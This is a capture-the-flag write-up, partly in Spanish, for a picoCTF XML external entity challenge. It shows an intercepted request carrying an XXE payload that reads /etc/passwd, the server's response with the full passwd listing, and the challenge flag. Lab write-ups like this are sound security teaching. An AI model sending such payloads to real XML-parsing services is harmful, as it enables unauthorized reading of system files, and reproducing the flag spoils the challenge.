 The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:53542/)

Hints:
1. XML external entity Injection

## Solución 1:
Interceptando una de las peticiones con burpsuit y modificando el envío del XML para hacer una inyección de entidad externa:
```
Se mando la siguiente petición:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">  <!-- Entidad maliciosa -->
]>
<data>
	<ID>&xxe;</ID>
</data>

Obteniendo la respuesta:

HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Sun, 30 Mar 2025 00:13:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}

picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}

```




